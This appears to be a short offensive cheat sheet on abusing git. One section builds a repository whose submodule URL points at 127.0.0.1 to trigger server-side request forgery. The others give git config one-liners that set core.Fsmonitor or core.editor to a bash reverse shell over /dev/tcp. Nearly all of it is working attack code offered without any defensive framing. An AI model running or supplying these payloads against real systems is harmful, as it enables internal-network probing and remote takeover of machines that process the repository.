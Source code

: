 ## SSRF

```bash
# Create initial commit
echo "test" > test.txt
git add test.txt
git commit -m "Initial commit"

# Create empty commit to get a valid hash
git commit --allow-empty -m "Empty commit"
EMPTY_COMMIT=$(git rev-parse HEAD)

# Create .gitmodules file
echo '[submodule "leak"]
    path = leak
    url = http://127.0.0.1/#' > .gitmodules
git add .gitmodules
git commit -m "Add submodule configuration"

# Register the submodule properly using the empty commit hash
echo -ne "160000 commit $EMPTY_COMMIT\tleak" | git update-index --index-info
git commit -m "Register submodule"

# Configure the submodule
git config -f .git/config submodule.leak.url 'http://127.0.0.1/#'
git config -f .git/config submodule.leak.path leak
git config -f .git/config submodule.leak.active true
```

## RCE
### Fsmonitor
this is not case senstive 
```bash
git config core.Fsmonitor "/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"
```
### Editor
this only triggers when command that needs editor are used
```bash
git config --global core.editor "/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"
```

